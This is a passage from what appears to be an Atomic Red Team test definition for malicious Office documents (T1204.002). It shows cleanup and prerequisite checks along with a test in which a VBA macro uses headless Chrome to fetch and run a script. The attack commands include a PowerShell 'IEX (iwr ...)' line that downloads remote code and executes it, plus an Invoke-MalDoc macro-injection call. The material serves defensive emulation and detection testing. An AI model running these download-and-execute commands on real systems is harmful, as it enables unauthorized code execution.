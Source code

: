 [System.Runtime.Interopservices.Marshal]::ReleaseComObject($xlBook) | Out-Null
[System.Runtime.Interopservices.Marshal]::ReleaseComObject($xlApp) | Out-Null
[System.GC]::Collect()
[System.GC]::WaitForPendingFinalizers()

Remove-Variable xlBook
Remove-Variable xlApp
Cleanup Commands:
Stop-Process -Name "procexp*" -ErrorAction Ignore
Remove-Item "$env:TEMP\atomic_redteam_x4m_exec.vbs" -ErrorAction Ignore
Remove-Item "$env:TEMP\procexp.exe" -ErrorAction Ignore
Dependencies: Run with powershell!
Description: Microsoft Excel must be installed
Check Prereq Commands:
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
Get Prereq Commands:
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"


Atomic Test #7 - Headless Chrome code execution via VBA
This module uses Google Chrome combined with ScriptControl to achieve code execution. It spawns a local webserver hosting our malicious payload. Headless Google Chrome will then reach out to this webserver and pull down the script and execute it. By default the payload will execute calc.exe on the system.

Supported Platforms: Windows

auto_generated_guid: a19ee671-ed98-4e9d-b19c-d1954a51585a

Attack Commands: Run with powershell!
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1204.002\src\chromeexec-macrocode.txt" -officeProduct "Word" -sub "ExecChrome"
Cleanup Commands:
Stop-Process -name mshta
Dependencies: Run with powershell!
Description: Microsoft Word must be installed
Check Prereq Commands:
try {
  $wdApp = New-Object -COMObject "Word.Application"
  Stop-Process -Name "winword"
  exit 0 } catch { exit 1 }
Get Prereq Commands:
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
Description: Google Chrome must be installed
Check Prereq Commands:
try {
  $chromeInstalled = (Get-Item (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe').'(Default)').VersionInfo.FileName
  exit 0
} catch { exit 1 }
Get Prereq Commands:
Write-Host "You will need to install Google Chrome manually to meet this requirement"
